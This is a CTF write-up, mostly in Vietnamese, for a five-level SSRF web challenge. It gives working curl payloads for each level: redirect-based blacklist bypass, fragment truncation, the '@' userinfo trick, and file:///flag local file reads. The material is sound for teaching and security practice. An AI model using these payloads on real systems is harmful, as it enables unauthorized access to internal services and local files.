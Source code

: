 ## Fortnight challenge 2022: OOPs (Object oriented programming - supreme)

![warmup category](https://img.shields.io/badge/Category-web-brightgreen.svg)  
![score](https://img.shields.io/badge/Score_after_CTF-200-blue.svg)  
![author](https://img.shields.io/badge/Author-Em0n%238997-blue.svg)  
![solves](https://img.shields.io/badge/Solves-6-lightgrey.svg)

### Description
You think you understand SSRF already? How cute

### Hints
- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

### Attached files
[source.zip](https://github.com/compsec-hcmus/hcmus-wu/raw/main/write-up/Fortnight%20Challenge%202022/Web%20exploitation/Cute%20Page/source.zip)

### Summary
> Câu chuyện về 1 người lập trình viên đi vá lỗ hổng SSRF của mình

### Detailed solution

Challenge này được chia làm 5 level từ dễ đến khó, đòi hỏi những hiểu biết nhất định về cách mà ứng dụng "đọc" `url`, từ đó lợi dụng SSRF để lấy được những thông tin nội bộ.

---

**Level 1**

Level này có 1 server frontend có thể kết nối từ bên ngoài và server trả về flag nhưng chỉ có thể truy cập trong mạng nội bộ vì trong port của server này không được mapped ra bên ngoài
```yaml
// docker-compose.yml

version: "3.6"
services:
  level1:
    build: ./frontend
    restart: unless-stopped
    ports:
      - 33331:80

  flag:
    build: ./flag
    restart: unless-stopped
```

Tuy nhiên ở frontend nhận 1 url và sử dụng curl để gọi tới url đó, vậy nên ta có thể request tới `http://flag:3000/flag` thông qua frontend.

```bash
curl "http://103.245.249.107:33331/?url=http://flag:3000/flag"
```
```
Do config, service nội bộ flag không thể truy cập được từ Internet.
Tuy nhiên, nhờ lỗ hổng SSRF, ta đã có thể đọc được nội dung bí mật này
Phần 1 của flag: f0rtn1ght{
```

---
**Level 2**

Sau khi nhận ra mình không hề có phương pháp bảo vệ nào cho server nội bộ, anh dev đã nảy ra ý tưởng là thêm blacklist `flag` không được nằm trong url. Nhưng rõ ràng để tới được path `/flag`, chúng ta bắt buộc phải truyền nguyên văn tên của nó.

Cần để ý rằng có 1 giá trị khá thú vị khi anh dev setup `curl`, đó là 
```php
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
```
Dòng này có nghĩa là `curl` sẽ tiếp tục thực hiện các request tiếp theo nếu nó nhận được response redirect. Nó tương tự với flag `-L` khi gọi curl trên command line.

Vậy là đã rõ, thay vì gửi url tới server nội bộ, chúng ta sẽ setup 1 server của mình để trả về redirect response tới server nội bộ đó, và đảm bảo url của server này không chứa từ "flag" là được :))) Có nhiều cách để thực hiện, hoặc là tạo server riêng, hoặc là dùng router để kích hoạt port forwarding, dịch vụ webhook hoặc là dùng cách url shortener.

```bash
curl "http://103.245.249.107:33332/?url=https://tinyurl.com/muvt6p4y"
```
```
Đôi khi lỗ hổng SSRF sẽ bị ngăn chặn bằng cách lọc những từ khóa xấu.
Ví dụ: localhost, 127.0.0.1, internal, ...
Tuy nhiên, ta có thể sử dụng tính năng redirect để điều hướng cho server gửi request tới các services nội bộ
Phần 2 của flag: f1ftY_
```

---
**Level 3**

Thua keo này thì bày keo khác. Lần này anh dev của chúng ta tạo thêm hẳn 1 server `api` nội bộ nữa, và bắt buộc url chúng ta gửi đi sẽ truyền vào cho server này
```php
$url = "http://api:3000" . $url . ".txt";
```
Server có 3 route chính
- `/robot.txt`: in ra con robot
- `/monkey.txt`: in ra con khỉ
- `/redirect`: redirect sang `url` được truyền trong param

Không cần phải nói, endpoint thứ 3 chính là cái chúng ta cần. Tuy nhiên, lần này thì url của chúng ta dính thêm cái đuôi `.txt` nữa, vậy nên chỉ cần thêm dấu `#` để biến phần đó thành fragment hoặc cho nó thành 1 payload thì server sẽ hiểu `/flag` chính là path của url.

```bash
curl "http://103.245.249.107:33333/?url=/redirect?url=http://flag:3000/flag#"
```
```
Lỗ hổng SSRF thường liên quan mật thiết đến một loại dữ liệu: URL
Hiểu rõ cấu trúc của URL sẽ giúp các bạn có thêm nhiều ý tưởng để tấn công hay bypass các lớp phòng chống
Phần 3 của flag: sh@de_
```

---
**Level 4**

Sau khi để ý rằng việc bật `CURLOPT_FOLLOWLOCATION` chằng giúp ích gì cho anh ngoài việc để cho hacker chui vào mạng nội bộ của mình, anh nảy ra sáng kiến ~~cúp cầu dao~~ tắt luôn cái option này, nghĩa là dùng payload cũ ở level 3 sẽ trả về response sau thay vì flag
```
Found. Redirecting to http://flag:3000/flag
```

Tới lúc này ta sẽ cần hiểu sâu hơn về cách mà các ứng dụng, trong trường hợp này là `curl`, hiểu về url. Hint của challenge dẫn tới slide của `Orange Tsai` nói về sự phức tạp của url khiến cho dev dễ tạo ra lỗ hổng SSRF nếu không hiểu kĩ ứng dụng của mình đang làm gì.

Có 1 kiểu authentication được dùng phổ biến có tên là `Basic Authentication`. Cách này cho phép chèn phía trước domain 1 chuỗi có dạng `<username>:<password>@` và phía server sẽ nhận phần credential đó để tiến hành xác thực. 

Và tiện thay, vì hiện tại phần được ghép phía trước `$url` đang là `api:3000`. Nếu chúng ta truyền url là `@flag:3000/flag#`, url đầy đủ sẽ là `http://api:3000@flag:3000/flag#`. `curl` sẽ hiểu rằng ta đang gọi tới `flag:3000` kèm credential là `username = api, password = 3000`, và từ đó chúng ta có thể SSRF tới server `flag` mà không cần thông qua `api`.

```bash
curl "http://103.245.249.107:33334/?url=@flag:3000/flag#"
```
```
Theo đánh giá của tác giả, đây là level khó nhất, chúc mừng các bạn đã tìm được lời giải 
Phần 4 của flag: 0ffffFffff_
```

---
**Level 5**

Tức nước vỡ bờ. Sau khi bị hacker dập te tua mạng nội bộ của mình, có vẻ anh dev của chúng ta đã bỏ cuộc và để mặc file `flag` nằm cùng directory của folder `/src`.

Tuy nhiên, vì không còn server `flag` nghĩa là chúng ta không còn server để serve nội dung của file đó lên nữa. Rất may là thư viện `curl` của php không chỉ hỗ trợ scheme `http` hay `https` mà còn nhiều scheme khác như `ftp`, `ftps`, `gopher`, `file`, ... [link geeksforgeeks](https://www.geeksforgeeks.org/php-curl/).

Vì thế chúng ta có thể sử dụng scheme `file` để đọc được file `flag` này mà không cần server kia nữa. Các bạn có thể đọc thêm về các loại `file` scheme ở [đây](https://en.wikipedia.org/wiki/File_URI_scheme).

```bash
curl "http://103.245.249.107:33335/?url=file:///flag"
```
```
Mình mong là 5 level của mình sẽ giúp các bạn hiểu thêm gì đó về lỗ hổng SSRF, các thủ thuật để khai thác lỗ hổng này, và hiểu thêm về URL.
Phần 5 của flag: SSRF}
```


### Flag
```
f0rtn1ght{a5_l0ng_As_1t_w0rk5}
```
